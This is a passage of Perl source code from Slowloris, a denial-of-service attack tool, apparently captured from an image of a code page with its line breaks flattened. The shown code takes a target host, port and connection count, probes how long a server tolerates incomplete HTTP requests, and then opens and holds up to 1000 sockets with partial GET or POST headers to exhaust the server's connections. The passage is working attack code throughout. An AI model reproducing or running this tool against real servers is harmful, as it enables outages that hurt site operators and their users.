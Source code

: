 $connections ); my ( $cache, $httpready, $method, $ssl, $rand, $tcpto ); my $result = GetOptions(     'shost=s'   => \$shost,     'dns=s'     => \$host,     'httpready' => \$httpready,     'num=i'     => \$connections,     'cache'     => \$cache,     'port=i'    => \$port,     'https'     => \$ssl,     'tcpto=i'   => \$tcpto,     'test'      => \$test,     'timeout=i' => \$timeout,     'version'   => \$version, );  if ($version) {     print "Version 0.7\n";     exit; }  unless ($host) {     print "Usage:\n\n\tperl $0 -dns [www.example.com] -options\n";     print "\n\tType 'perldoc $0' for help with options.\n\n";     exit; }  unless ($port) {     $port = 80;     print "Defaulting to port 80.\n"; }  unless ($tcpto) {     $tcpto = 5;     print "Defaulting to a 5 second tcp connection timeout.\n"; }  unless ($test) {     unless ($timeout) {         $timeout = 100;         print "Defaulting to a 100 second re-try timeout.\n";     }     unless ($connections) {         $connections = 1000;         print "Defaulting to 1000 connections.\n";     } }  my $usemultithreading = 0; if ( $Config{usethreads} ) {     print "Multithreading enabled.\n";     $usemultithreading = 1;     use threads;     use threads::shared; } else {     print "No multithreading capabilites found!\n";     print "Slowloris will be slower than normal as a result.\n"; }  my $packetcount : shared     = 0; my $failed : shared          = 0; my $connectioncount : shared = 0;  srand() if ($cache);  if ($shost) {     $sendhost = $shost; } else {     $sendhost = $host; } if ($httpready) {     $method = "POST"; } else {     $method = "GET"; }  if ($test) {     my @times = ( "2", "30", "90", "240", "500" );     my $totaltime = 0;     foreach (@times) {         $totaltime = $totaltime + $_;     }     $totaltime = $totaltime / 60;     print "This test could take up to $totaltime minutes.\n";      my $delay   = 0;     my $working = 0;     my $sock;      if ($ssl) {         if (             $sock = new IO::Socket::SSL(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     else {         if (             $sock = new IO::Socket::INET(                 PeerAddr => "$host",                 PeerPort => "$port",                 Timeout  => "$tcpto",                 Proto    => "tcp",             )           )         {             $working = 1;         }     }     if ($working) {         if ($cache) {             $rand = "?" . int( rand(99999999999999) );         }         else {             $rand = "";         }         my $primarypayload =             "GET /$rand HTTP/1.1\r\n"           . "Host: $sendhost\r\n"           . "User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; Trident/4.0; .NET CLR 1.1.4322; .NET CLR 2.0.503l3; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729; MSOffice 12)\r\n"           . "Content-Length: 42\r\n";         if ( print $sock $primarypayload ) {             print "Connection successful, now comes the waiting game...\n";         }         else {             print "That's odd - I connected but couldn't send the data to $host:$port.\n";             print "Is something wrong?\nDying.\n";             exit;         }     }     else {         print "Uhm... I can't connect to $host:$port.\n";         print "Is something wrong?\nDying.\n";         exit;     }     for ( my $i = 0 ; $i &lt;= $#times ; $i++ ) {         print "Trying a $times[$i] second delay: \n";         sleep( $times[$i] );         if ( print $sock "X-a: b\r\n" ) {             print "\tWorked.\n";             $delay = $times[$i];         }         else {             if ( $SIG{__WARN__} ) {                 $delay = $times[ $i - 1 ];                 last;             }             print "\tFailed after $times[$i] seconds.\n";         }     }      if ( print $sock "Connection: Close\r\n\r\n" ) {         print "Okay that's enough time. Slowloris closed the socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     else {         print "Remote server closed socket.\n";         print "Use $delay seconds for -timeout.\n";         exit;     }     if ( $delay &lt; 166 ) {         print &lt;&lt;EOSUCKS2BU; Since the timeout ended up being so small ($delay seconds) and it generally  takes between 200-500 threads for most servers and assuming any latency at  all...  you might have trouble using Slowloris against this target.  You can  tweak the -timeout flag down to less than 10 seconds but it still may not  build the sockets in time. EOSUCKS2BU     } } else {     print "Connecting to $host:$port every $timeout seconds with $connections sockets:\n";      if ($usemultithreading) {         domultithreading($connections);     }     else {         doconnections( $connections, $usemultithreading );     } }  sub doconnections {     my ( $num, $usemultithreading ) = @_;     my ( @first, @sock, @working );     my $failedconnections = 0;     $working[$_] = 0 foreach ( 1 .. $num );    #initializing     $first[$_]   = 0 foreach ( 1 .. $num );    #initializing     while (1) {         $failedconnections = 0;         print "\t\tBuilding sockets.\n";         foreach my $z ( 1 .. $num ) {             if ( $working[$z] == 0 ) {                 if ($ssl) {                     if (                         $sock[$z] = new IO::Socket::SSL(                             PeerAddr => "$host",                             PeerPort => "$port",                             Timeout  => "$tcpto",                             Proto    => "tcp",                         )                       )                     {                         $working[$z] = 1;                     }                     else {                         $working[$z] = 0;                     }                 }                 else {                     if (